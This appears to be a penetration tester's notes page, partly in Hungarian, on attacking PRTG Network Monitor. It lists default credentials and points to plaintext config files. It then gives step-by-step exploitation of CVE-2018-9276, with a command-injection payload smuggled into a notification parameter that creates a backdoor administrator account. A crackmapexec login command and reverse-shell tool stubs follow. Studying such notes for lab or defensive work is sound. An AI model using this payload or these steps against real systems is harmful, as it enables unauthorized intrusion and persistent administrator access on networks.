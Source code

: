 # PRTG network monitor
## vulnerabilites (with normal POC)
* 2 XSS  
* 1 DOS  
* Command injection (authentication needed)
  * CVE-2018-9276
  * it is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39.  

Source: https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html
## info
usually presented in internal networks (rarely on external networks)  
common ports: 80, 443, 8080, ... (web ports)  
default credentials: prtgadmin:prtgadmin  
## ha hozzaferunk a fajlrendszerhez
* C:\ProgramData\Paessler mappa a default mappa ahol a config fajlok vannak
* Ott lehet siman config adat ami plain text
* Nagy file-ok vannak arra fele, ugyesen kell atnezni, valahogy greppelve
## exploitation
https://www.codewatch.org/blog/?p=453  
Setup / Account Settings / Notifications / Add new notification  
set name field  
tick the checkbox 'Execute Program'  
Under Program File, select Demo exe notification - outfile.ps1 from the drop-down  
in the parameter field, enter a command.  
example rce code  
<pre>test.txt;net user prtgadm1 Password_123 /add;net localgroup administrators prtgadm1 /add</pre>  
click 'Save'  
search your created notification (in the notifications list) and click on the checkbox at the end of the row  
click on 'Send test notification'  
connect to the machine with the created user  
<pre>sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Password_123</pre>
reverse shell
<pre>
psexec...
evil-winrm...
</pre>
